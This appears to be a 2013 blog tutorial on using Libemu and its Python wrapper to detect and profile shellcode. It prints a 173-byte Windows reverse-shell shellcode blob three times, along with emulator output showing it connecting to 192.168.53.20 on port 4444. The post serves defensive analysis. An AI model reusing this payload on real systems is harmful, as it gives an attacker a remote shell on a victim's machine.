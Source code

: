 x86 Emulation and Shellcode Detection
=====================================
date: 06/Mar/2013
summary: Libemu is a C library for x86 emulation and shellcode detection. Pylibemu is its Python wrapper that provides an easy-to-use API and has additional features compared to the default bindings.
tags: code, shellcode

[Libemu](http://libemu.carnivore.it/) is a C library that provides x86
architecture emulation and
[shellcode](http://www.infosecwriters.com/hhworld/shellcode.txt)
detection features. It uses
[GetPC](http://skypher.com/wiki/index.php?title=Hacking/Shellcode/GetPC)
heuristics to identify shellcode blobs within an input buffer.

> `GetPC` is a shellcode writing technique, commonly used with
> [selfmodifying](http://www.blackhatlibrary.net/Shellcode/Self-modifying)
> shellcode. Self-modification is a technique that enables a piece code
> to mutate itself, primarily to hide from AV/HIPS filters. A shellcode
> won't be loaded by a trusted loading mechanism, but would rather be
> injected into a target process's virtual address space. As such,
> during execution, it will have very limited knowledge of its execution
> context. Specifically, it won't be loaded at a known location and a
> reliable guess of its base location is unfeasible. Due to this
> limitation, one cannot use hardcoded `jmp`/`call` addresses in a
> shellcode but rather rely on some code to get the base address and
> then use offsets from the current base to reach specific locations
> inside shellcode buffer. Such a piece of code is also referred to as
> being [Position
> Independent](http://en.wikipedia.org/wiki/Position-independent_code).

Installation instructions are very well documented and a quick search
would provide you good references, like
[this](http://blog.xanda.org/2012/05/16/installation-of-libemu-and-pylibemu-on-ubuntu/)
for example. Once both Libemu and it's Python binding,
[pylibemu](https://github.com/buffer/pylibemu), are installed we can
have a quick validation test:

```python
#!/usr/bin/env python

import sys
import pylibemu

buf = ""
for line in sys.stdin.readlines():
  buf += line

print "[+] Testing buf of fize %dB ..." % (len(buf))

emu = pylibemu.Emulator()
offset = emu.shellcode_getpc_test(buf)

if offset >= 0:
  print "[+] IS SHELLCODE!"
else:
  print "[-] NOT SHELLCODE!"
```

Above program creates an `Emulator` instance and uses it to perform
`GetPC` test upon input buffer. It can read raw input from stdin which
in our case will be pipe'd through an `echo` command as such:

```shell
$ echo -en "\xff\xff\xff\xff" | python emutest.py
[+] Testing buf of fize 4B ...
[-] NOT SHELLCODE!
$
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" | python emutest.py
[+] Testing buf of fize 173B ...
[+] IS SHELLCODE!
```

As is evident, the sample buffer that was used in a pylibemu usage
example is indeed identified as shellcode through the `GetPC` test.
Pylibemu provides another very useful API method, `test()`, that can
profile shellcode bytes and identify Windows system calls, their
parameters, return values, etc. This helps in understanding the behavior
of identified shellcode:

```shell
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" | python emuprofile.py
[+] Testing buf of fize 173B ...
[+] IS SHELLCODE!
HMODULE LoadLibraryA (
  LPCTSTR = 0x02288910 =>
    = "ws2_32";
) =  0x71a10000;
int WSAStartup (
  WORD wVersionRequested = 2;
  LPWSADATA lpWSAData = 1244272;
) =  0x0;
SOCKET WSASocket (
  int af = 2;
  int type = 1;
  int protocol = 0;
  LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
  GROUP g = 0;
  DWORD dwFlags = 0;
) =  0x42;
int connect (
  SOCKET s = 66;
  struct sockaddr_in * name = 0x0012fe88 =>
    struct = {
      short sin_family = 2;
      unsigned short sin_port = 23569 (port=4444);
      struct in_addr sin_addr = {
        unsigned long s_addr = 339060928 (host=192.168.53.20);
      };
      char sin_zero = "       ";
    };
  int namelen = 16;
) =  0x0;
```

The profiling API identifies critical windows API calls above and
emulates them in its x86 emulator. The return values for all system
calls are recorded and dumped when requested. From the output it is
evident that the shellcode under test will load the win32 socket library
and then invoke socket calls to connect to host 192.168.53.20 through
TCP/4444 port. This implies that we are dealing with Windows/x86 Reverse
TCP Bind shellcode.

Libemu allows you to test arbitrary blob of bytes and test if it depicts
shellcode-like behavior. Projects like
[peepdf](http://code.google.com/p/peepdf/),
[pyew](https://code.google.com/p/pyew/), and
[Malzilla](https://code.google.com/p/pyew/) use Libemu for identifying,
profiling and analyzing shellcode within arbitrary binary streams.
Identifying shellcode in network streams is another interesting usecase
and there is an
[example](https://github.com/MITRECND/chopshop/blob/master/modules/shellcode_detector.py)
for you to play around.

Libemu includes an interesting program, `sctest`, that can perform
testing/profiling over arbitrary files. It can also generate a
[CFG](http://en.wikipedia.org/wiki/Control_flow_graph) for detected
shellcode and write it to a
[DOT](http://en.wikipedia.org/wiki/DOT_%28graph_description_language%29)
file which can then be rendered as an image:

```shell
$ echo -en "\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50\x53\x57\x53\x66\xb9\xc0\x38" >shellcode.bin
$
$ sctest -Sgs 1000000 -v -G test.dot <shellcode.bin
$
$ dot shellcode.dot -Tpng -o shellcode.png
```

Here is the generated CFG image:

![image](/static/files/shellcode.png)
